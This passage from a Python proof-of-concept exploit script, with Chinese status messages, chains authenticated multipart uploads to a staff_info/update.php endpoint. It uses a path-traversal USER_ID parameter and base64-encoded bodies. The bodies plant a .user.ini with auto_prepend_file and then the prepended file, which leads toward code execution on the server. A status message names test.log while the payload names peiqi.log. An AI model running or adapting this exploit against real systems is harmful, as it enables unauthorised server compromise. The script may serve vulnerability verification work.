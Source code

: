 ```python
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkuaW5pIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCmF1dG9fcHJlcGVuZF9maWxlPXBlaXFpLmxvZwotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkubG9nIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KClBlaVFpX1dpa2kKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)
```
